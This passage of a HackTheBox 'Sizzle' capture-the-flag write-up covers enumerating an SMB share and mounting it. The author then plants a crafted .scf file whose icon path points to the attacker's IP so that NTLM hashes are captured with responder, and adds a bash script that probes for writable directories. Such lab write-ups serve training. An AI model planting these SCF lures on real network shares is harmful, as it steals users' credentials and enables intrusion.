 The `ZZ_Archive` directory contains a lot of different files which all have the same size and edit date with different extensions.&#x20;

```
smb: \ZZ_ARCHIVE\> ls
  .                                   D        0  Mon Jul  2 15:32:58 2018
  ..                                  D        0  Mon Jul  2 15:32:58 2018
  AddComplete.pptx                    A   419430  Mon Jul  2 15:32:58 2018
  AddMerge.ram                        A   419430  Mon Jul  2 15:32:57 2018
  ConfirmUnprotect.doc                A   419430  Mon Jul  2 15:32:57 2018
  ConvertFromInvoke.mov               A   419430  Mon Jul  2 15:32:57 2018
  ConvertJoin.docx                    A   419430  Mon Jul  2 15:32:57 2018
  CopyPublish.ogg                     A   419430  Mon Jul  2 15:32:57 2018
  <TRUNCATED>
```

All of these folders were rather useless and contained nothing of interest. I tried ASREP-Roasting the users but to no avail as well. My thought process was that since we cannot use anything within the share, perhaps we have to put something there.

### SCF File --> NTLM Hash

In another machine [Driver ](https://rouvin.gitbook.io/ibreakstuff/writeups/hackthebox/easy/drive)on HTB, we had to create a `.scf` file that was being clicked by the user in order to capture NTLM hashes via `responder`. I tried the same thing here.

First, I mounted the SMB share.&#x20;

```
$ sudo mount -t cifs '//10.129.73.156/Department Shares' ~/htb/sizzle/mnt
[sudo] password for kali: 
Password for root@//10.129.73.156/Department Shares:
```

I started with the most out place file to try the exploit, which was the `ZZ_ARCHIVE` directory. Then, we can place this file within it:

```
[Shell]
Command=2
IconFile=\\10.10.14.9\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

There was nothing for this particular directory, and it looks like nothing was happening. So I decided to check exactly which directories I could write to. I used ChatGPT (the best tool ever) to create a quick script to do this:

```bash
#!/bin/bash
create_test_file() {
    local dir=$1
    if touch "$dir/test" 2>/dev/null; then
        echo "Created file 'test' in directory: $dir"
    fi
}

traverse_directories() {
    local dir=$1
    create_test_file "$dir"
    for subdir in "$dir"/*; do
        if [[ -d "$subdir" ]]; then
            traverse_directories "$subdir"
        fi
    done
}
root_directory="/home/kali/htb/sizzle/mnt"

```